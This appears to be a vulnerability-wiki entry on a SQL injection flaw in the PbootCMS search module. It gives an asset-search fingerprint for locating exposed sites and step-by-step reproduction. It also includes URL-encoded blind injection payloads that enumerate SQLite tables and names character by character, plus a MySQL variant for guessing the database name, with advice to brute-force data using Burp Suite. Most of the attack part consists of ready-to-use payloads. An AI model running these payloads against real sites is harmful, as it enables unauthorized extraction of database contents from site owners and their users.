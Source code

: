 # PbootCMS domain SQL injection vulnerability

## Vulnerability Description

The PbootCMS search module has a SQL injection vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">PbootCMS <= 3.0.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="PBOOTCMS"</span>

## Vulnerability reappears

Build the latest version locally and visit the homepage

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629446682012-1df0a2c6-c764-4f1f-a5ae-cb85fd927b7e.png)

We need to visit an existing page

Add a single quote after 13 in the url '

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629446712199-bb42a36a-69b2-485a-b0e6-0512f775cf45.png)

If the error is reported for execution of SQL, the vulnerability exists

If the following picture is displayed

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629446812952-1dc35ab3-7379-424b-aad0-f8ad0629361c.png)

The vulnerability cannot be exploited

The program is built as a sqlite3 database by default, Fuzz the current database form payload

```plain
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629447097101-67648843-6711-4cbc-a2f2-dfa5f6aaa6f9.png)

Blind-in via this payload Is the total number of forms in the Fuzz database less than 40

The query is true and returns normal, and if false, an error is reported

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629447283665-e890ddac-0cea-4447-a0ff-d42578145f93.png)

From this we can accurately infer the total number of forms

To calculate the length of the first table name in the sqlite database, we can use the following payload:

```plain
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)<8--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629447585595-c411c868-fcff-4361-8a84-84596245407a.png)

To guess the first table name, we can use the following payload:

```plain
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)%3d'a'--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629447665612-0b0fe39d-b896-41d9-9904-cf760f2b516c.png)



Through the substr() function, we can easily get the table name.

Similarly, other data can be obtained

#### How to use it under Mysql

To guess the current database name, you can use the following payload for Fuzz:

```plain
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

The page will return to normal when the query is true.

Use Burpsuite to burst out database names, other table names, field names, etc. The same methods include the same


</a-alert>
<br/>